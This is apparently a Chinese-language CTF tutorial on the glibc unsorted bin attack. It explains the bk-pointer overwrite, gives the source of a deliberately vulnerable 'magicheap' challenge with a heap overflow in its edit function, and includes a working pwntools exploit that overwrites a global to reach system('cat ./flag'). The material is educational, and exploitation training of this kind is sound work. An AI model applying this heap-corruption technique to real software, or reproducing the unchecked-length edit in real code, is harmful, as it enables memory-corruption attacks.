




# Unsorted Bin Attack

## 利用条件

如果可以控制尾部 unsorted bin bk 的值，我们就能将 unsorted_chunks (av) 写到任意地址。

一般写掉 global_max_fast ，改为一个很大的值，使得后续 malloc 的所有 chunk 都被视为 fastchunk，可以配合 fastbin attack 进一步利用。

## 原理



unsorted bin 存储在双链表中，如果链中的 chunk size 大小有 malloc 需要的 size 大小，会优先从 unsorted bin->bk 取出（也就是最下面的chunk）






其中 `bck = victim->bk`,bck 就是中间的蓝色 chunk。

如果有漏洞可以篡改处于 free 状态的 unsorted bin 的 bk 为 target-0x10，那么下次 malloc 和该 unsorted bin 相同大小的 chunk 时候，就可以修改 target 的内容的内容为一个较大的数值(如果只有一个 unsorted bin，那就会修改目标为 main_arena+88)。




## 题目

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void read_input(char *buf, size_t size) {
  int ret;
  ret = read(0, buf, size);
  if (ret <= 0) {
    puts("Error");
    _exit(-1);
  }
}

char *heaparray[10];
unsigned long int magic = 0;

void menu() {
  puts("--------------------------------");
  puts("       Magic Heap Creator       ");
  puts("--------------------------------");
  puts(" 1. Create a Heap               ");
  puts(" 2. Edit a Heap                 ");
  puts(" 3. Delete a Heap               ");
  puts(" 4. Exit                        ");
  puts("--------------------------------");
  printf("Your choice :");
}

void create_heap() {
  int i;
  char buf[8];
  size_t size = 0;
  for (i = 0; i < 10; i++) {
    if (!heaparray[i]) {
      printf("Size of Heap : ");
      read(0, buf, 8);
      size = atoi(buf);
      heaparray[i] = (char *)malloc(size);
      if (!heaparray[i]) {
        puts("Allocate Error");
        exit(2);
      }
      printf("Content of heap:");
      read_input(heaparray[i], size);
      puts("SuccessFul");
      break;
    }
  }
}

void edit_heap() {
  int idx;
  char buf[4];
  size_t size;
  printf("Index :");
  read(0, buf, 4);
  idx = atoi(buf);
  if (idx < 0 || idx >= 10) {
    puts("Out of bound!");
    _exit(0);
  }
  if (heaparray[idx]) {
    printf("Size of Heap : ");
    read(0, buf, 8);
    size = atoi(buf);
    printf("Content of heap : ");
    read_input(heaparray[idx], size);
    puts("Done !");
  } else {
    puts("No such heap !");
  }
}

void delete_heap() {
  int idx;
  char buf[4];
  printf("Index :");
  read(0, buf, 4);
  idx = atoi(buf);
  if (idx < 0 || idx >= 10) {
    puts("Out of bound!");
    _exit(0);
  }
  if (heaparray[idx]) {
    free(heaparray[idx]);
    heaparray[idx] = NULL;
    puts("Done !");
  } else {
    puts("No such heap !");
  }
}

void l33t() { system("cat ./flag"); }

int main() {
  char buf[8];
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  while (1) {
    menu();
    read(0, buf, 8);
    switch (atoi(buf)) {
    case 1:
      create_heap();
      break;
    case 2:
      edit_heap();
      break;
    case 3:
      delete_heap();
      break;
    case 4:
      exit(0);
      break;
    case 4869:
      if (magic > 4869) {
        puts("Congrt !");
        l33t();
      } else
        puts("So sad !");
      break;
    default:
      puts("Invalid Choice");
      break;
    }
  }
  return 0;
}
```

## exp

```python
#coding:utf8
from pwn import *
# from LibcSearcher import *
context(log_level='debug',terminal=["tmux","splitw","-h"])
binary = "./magicheap"
# libc_binary = "./"

p = process(argv=[binary])
# p = remote("",)

elf = ELF(binary)
# libc = ELF(libc_binary)

context.arch = "amd64"

def opt(idx):
    p.sendlineafter("Your choice :",str(idx))

def add(length,content):
    opt(1)
    p.sendlineafter("Size of Heap : ",str(length))
    p.sendlineafter("Content of heap:",str(content))

def free(idx):
    opt(3)
    p.sendlineafter("Index :",str(idx))

def edit(idx,length,content):
    opt(2)
    p.sendlineafter("Index :",str(idx))
    p.sendlineafter("Size of Heap : ",str(length))
    p.sendlineafter("Content of heap : ",str(content))


add(0x20,"aaaa")
add(0x80,"aaaa")
add(0x20,"aaaa")
free(1)
magic = 0x6020c0
fd = 0
bk = magic - 0x10

edit(0,0x20+0x20,"a"*0x20+p64(0)+p64(0x91)+p64(fd)+p64(bk))
# gdb.attach(p,"set $h=0x603000")
add(0x80,"aaaa")
p.sendline("4869")

p.interactive()
```
